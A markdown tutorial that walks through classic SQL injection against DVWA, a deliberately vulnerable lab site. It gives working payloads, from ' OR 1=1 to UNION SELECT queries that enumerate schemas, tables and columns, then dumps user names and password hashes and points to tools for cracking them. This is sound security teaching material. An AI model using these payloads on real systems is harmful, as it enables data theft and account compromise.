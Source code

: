 ```yaml
---
title: SQL Injection
description: Learn how to exploit sql injection vulnerability.
author: Kalidou DIA
---
```


# <center>CLASSIC SQL INJECTION - EXPLOIT</center>

![alt text](/img/sql_classic/sql_injection.jpeg#center)

________________________________________________________________
## 1. Presentation

### In this tutorial, we'll look at how to exploit a SQL injection vulnerability.

The website in question contains a lot of vulnerabilities. In a way, it is a laboratory for exploiting and testing vulnerabilities.
The vulnerability we are going to describe in the following lines is "SQL injection". More information :[ click here to view](https://www.kaspersky.fr/resource-center/definitions/sql-injection)
<p>The technologies used on this website are :</p>

![alt text](/img/sql_classic/techno_site.png#center)

Description of interaction with website visitors
<li>1. We ask the visitor to enter a user id</li>
<li>2. The server then returns the "First name" and "Surname" of the corresponding id.</li>
<br>

![alt text](/img/sql_classic/gordon_screen.png#center)

________________________________________________________________
## 2. How the website works 

### 2.1 Let's see how the site behaves when you enter values it doesn't expect
<div class="flex flex-col md:flex-row gap-10 justify-between">
    <div class="mx-4">
        <p>Enter a character string with quotes instead of an integer</p>
        <img src="/img/sql_classic/coucou.png"/>
    </div>
    <div class="mx-4">
        <p>The server processes the request correctly and returns a code 200 to say that everything is fine. Which is abnormal.</p>
        <img src="/img/sql_classic/coucou_response.png"/>
    </div>
</div>

### 2.2 Let's see if the sql injection works.
To do this, we're going to guess (thanks to the technology used on this site) the SQL query that is used to retrieve the information displayed.
After several tests, we deduce that the query in question could look like this:

```sql
SELECT colonne1, colonne2
FROM nom_de_la_table 
WHERE id = '$id';
```
The *id* field is our input that has been sent to the server. This is the field we're going to use to change the SQL query.

To do this, we're going to put in a character string that will return all the lines.
The string in question is as follows:  `` ' OR 1=1 -- - ``
<p> As a result, the query will be : </p>

```sql
SELECT colonne1, colonne2
FROM nom_de_la_table
WHERE id = '' OR 1=1 -- - ' ;
```

This query will return the rows of the table concerned because the condition `` WHERE id='' OR 1=1 `` is always true. The characters "<span style="color:#FF5733">-- -</span>" are used to comment out the rest of the request, which will not be executed.

![alt text](/img/sql_classic/exploit1.png#center)

The SQL injection passes and the table information is displayed.

________________________________________________________________
## 3. Extract more information

We are sure that the site is vulnerable to SQL injection.
Let's try to get some more information.

### 3.1 Database version

By running a few tests, we know that there are two columns being requested in the query.
As a result, our input will take this value : ``' UNION SELECT NULL,version()-- -``



The query will look like this: 
```sql
SELECT colonne1, colonne2
FROM nom_de_la_table
WHERE  id = '' UNION SELECT NULL,version()-- - '
```

``version()`` or ``@@version`` is a system variable found in most SQL databases.


![alt text](/img/sql_classic/version.png#center)
The image above shows that this is a mariaDB.

### 3.2 Database schemas

Our input here will take the following value: ``' UNION SELECT concat(schema_name),1 from information_schema.schemata -- - ``


``schema_name `` is also a system variable. So the schematics will be displayed in the first column and the value 1 in the second
We can see from the screenshot below that we have 2 comics: **dvwa'** and **information_schema**.

The database of interest to us is dvwa

![alt text](/img/sql_classic/schema.png#center)

### 3.3 Extract tables from the dvwa DB

input  :  <span style = "color : #FF5733 ">
``' UNION SELECT concat(TABLE_NAME),1 from information_schema.TABLES WHERE table_schema='dvwa' -- -``
</span>

**TABLE_NAME** is also a system variable
We can see that the dvwa DB contains two tables: users and guestbook

![alt text](/img/sql_classic/tables.png#center)


### 3.4 Extract columns from users table

input  :  <span style = "color : #FF5733 ">
``' UNION SELECT concat(COLUMN_NAME),1 from information_schema.COLUMNS WHERE TABLE_NAME='users' -- -``
</span>

**COLUMN_NAME** is also a system variable
The users table columns are :
    <li>user_id</li>
    <li>first_name</li>
    <li>last_name</li>
    <li>user</li>
    <li>password</li>
    <li>avatar</li>
    <li>last_login</li>
    <li>failed_login</li>

![alt text](/img/sql_classic/columns.png#center)


### 3.5 Extract all names and passwords

input  :  <span style = "color : #FF5733 ">
``'  UNION SELECT concat(0x28,first_name,0x3a,last_name,0x3a,password,0x29),1 from users -- -``
</span>

We use the ``concat()`` function to format and display as much information as we want.
<p>The characters <span style="color: #E85320"> 0x28 0x3a 0x29 </span> are respectively the ASCII representations of <span style="color: #E85320;"> <i>(</i> </span>, <span style="color: #E85320;"> <i>:</i> </span>  and <span style="color: #E85320;"> <i>)</i> </span> converted to hexadecimal. They are used for formatting</p>

The image below shows the various items of information recovered.
![alt text](/img/sql_classic/lines.png#center)

________________________________________________________________
## 4. Cracking passwords

Note that the passwords are hashed. The hash used looks like MD5 (32 characters).
<p>To crack passwords, let's use <a href="https://www.openwall.com/john/">John the Ripper</a> or an online password cracker : <a href="https://md5decrypt.net/">MD5 decrypt</a></p>

![alt text](/img/sql_classic/decrypt_password.png)

The unencrypted passwords are shown in the image above.
